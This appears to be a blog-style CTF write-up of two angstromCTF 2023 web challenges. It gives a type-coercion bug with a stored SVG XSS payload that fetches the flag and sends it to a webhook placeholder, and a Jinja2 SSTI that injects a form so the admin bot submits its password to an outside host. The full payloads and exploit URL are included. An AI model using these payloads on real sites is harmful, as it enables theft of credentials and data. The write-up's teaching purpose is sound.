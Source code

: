 ```yaml
---
layout: mypost
title: angstromCTF 2023
categories: [web, ctf]
---
```


## Introduction

A writeup for some interesting angstromCTF 2023 challenges.

## hallmark

We note from the challenge info that we need to xss the admin bot to get the flag:
![](https://i.imgur.com/PZ2vwWW.png)

The page is a simple form for submitting a card to be stored on the server:
![](https://i.imgur.com/RZgYqjW.png)

From the source, the only sink seems to be a PUT request on the `/cart` endpoint for creating a new card type:
```js
app.put("/card", (req, res) => {
    let { id, type, svg, content } = req.body;

    if (!id || !cards[id]){
        res.send("bad id");
        return;
    }
    cards[id].type = type == "image/svg+xml" ? type : "text/plain";
    cards[id].content = type === "image/svg+xml" ? IMAGES[svg || "heart"] : content;
    res.send("ok");
});
```

Looking at the source code on this endpoint, we can see inconsistent use of double equals and triple equals.

This means that we can send an array in the request parameters to exploit the type coercion on double equals, like:
`svg=abcd&content=abcd&type[]==image/svg%2bxml&id=someid`.

Double equals signs will coerce an array like `['image/svg+xml']` to `'image/svg+xml'`, but triple equals won't. Thus, we can make the server accept our content as `image/svg+xml`.

Now, we can just use a simple SVG XSS payload as the value in our `content` parameter to store an xss at that card.
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    fetch('/flag').then(resp => resp.text()).then(text => fetch("<webhook url>" %2b text))
  </script>
</svg>
```

Sending our payload to store an xss, we then submit the card url to the admin bot.

Then, we get a request to our webhook at `<webhook url>/actf%7Bthe_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33%7D` 

Hence, the flag is `actf{the_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33}`.

### brokenlogin
This challenge greets us with a login page:
![](https://i.imgur.com/LNehyCj.png)

The source code for the website looks like this:
```py
from flask import Flask, make_response, request, escape, render_template_string

app = Flask(__name__)

fails = 0

indexPage = """
<html>
    <head>
        <title>Broken Login</title>
    </head>
    <body>
        <p style="color: red; fontSize: '28px';">%s</p>
        <p>Number of failed logins: {{ fails }}</p>
        <form action="/" method="POST">
            <label for="username">Username: </label>
            <input id="username" type="text" name="username" /><br /><br />

            <label for="password">Password: </label>
            <input id="password" type="password" name="password" /><br /><br />

            <input type="submit" />
        </form>
    </body>
</html>
"""

@app.get("/")
def index():
    global fails

    custom_message = ""

    if "message" in request.args:
        if len(request.args["message"]) >= 25:
            return render_template_string(indexPage, fails=request.args["message"] + ' | ' + str(len(request.args["message"])))
        
        custom_message = escape(request.args["message"])

    
    return render_template_string(indexPage % custom_message, fails=request.args["message"] + ' | ' + str(len(request.args["message"])))


@app.post("/")
def login():
    global fails
    fails += 1
    return make_response("wrong username or password", 401)


if __name__ == "__main__":
    app.run("0.0.0.0")
```

And the source code for the admin bot looks like this:
```js
module.exports = {
    name: "brokenlogin",
    timeout: 7000,
    async execute(browser, url) {
        if (!/^https:\/\/brokenlogin\.web\.actf\.co\/.*/.test(url)) return;
        
        const page = await browser.newPage();

        await page.goto(url);
        await page.waitForNetworkIdle({
            timeout: 5000,
        });

        await page.waitForSelector("input[name=username]");
        
        await page.$eval(
          "input[name=username]",
          (el) => (el.value = "admin")
        );

        await page.waitForSelector("input[name=password]");

        await page.$eval(
          "input[name=password]",
          (el, password) => (el.value = password),
          process.env.CHALL_BROKENLOGIN_FLAG
        );

        await page.click("input[type=submit]");

        await new Promise((r) => setTimeout(r, 1000));

        await page.close();
    },
};
```

So, we get to work on finding sinks to XSS the admin bot. The first thing that we discover is that the message param on the login page is vulnerable to SSTI:
![](https://i.imgur.com/GyLQnly.png)

However, from the source code, we note that we can't have a payload longer than 25 characters:
```py
@app.get("/")
def index():
    global fails

    custom_message = ""

    if "message" in request.args:
        if len(request.args["message"]) >= 25:
            return render_template_string(indexPage, fails=request.args["message"] + ' | ' + str(len(request.args["message"])))
        
        custom_message = escape(request.args["message"])

    
    return render_template_string(indexPage % custom_message, fails=request.args["message"] + ' | ' + str(len(request.args["message"])))
```

This means that we can't do a typical `__mro__` and `__subclasses__()` chain to break out of the jinja2 sandbox, because it would take too many characters. We can, however, reference other parameters to get past this restriction-- albeit without python code execution:

![](https://i.imgur.com/5p4xdhM.png)

At this point, I attempted to put an XSS payload into the site via this SSTI, but was unsuccessful:

![](https://i.imgur.com/2ndObn0.png)

jinja2 automatically escapes text by default. However, we can indicate to the template engine not to escape our text by including `|safe` in the curly braces.

![](https://i.imgur.com/GRFlHy7.png)

From here, we inject another form to trick the admin bot into submitting its flag to us.
```html
<form action="<webhook site>/" method="POST">
    <label for="username">Username: </label>
    <input id="username" type="text" name="username" /><br /><br />

    <label for="password">Password: </label>
    <input id="password" type="password" name="password" /><br /><br />

    <input type="submit" />
</form>
```

This brings us to a final payload of:
```
https://brokenlogin.web.actf.co/?message=%7B%7Brequest.args.a%7Csafe%7D%7D&a=%3Cform%20action=%22<webhook site>/%22%20method=%22POST%22%3E%20%3Clabel%20for=%22username%22%3EUsername:%20%3C/label%3E%20%3Cinput%20id=%22username%22%20type=%22text%22%20name=%22username%22%20/%3E%3Cbr%20/%3E%3Cbr%20/%3E%20%3Clabel%20for=%22password%22%3EPassword:%20%3C/label%3E%20%3Cinput%20id=%22password%22%20type=%22password%22%20name=%22password%22%20/%3E%3Cbr%20/%3E%3Cbr%20/%3E%20%3Cinput%20type=%22submit%22%20/%3E%20%3C/form%3E
```

Submitting this payload to the admin bot, we receive this request body at our webhook:
```
username=admin&password=actf%7Badm1n_st1ll_c4nt_l0g1n_11dbb6af58965de9%7D
```

Hence, the flag is `actf{adm1n_st1ll_c4nt_l0g1n_11dbb6af58965de9}`.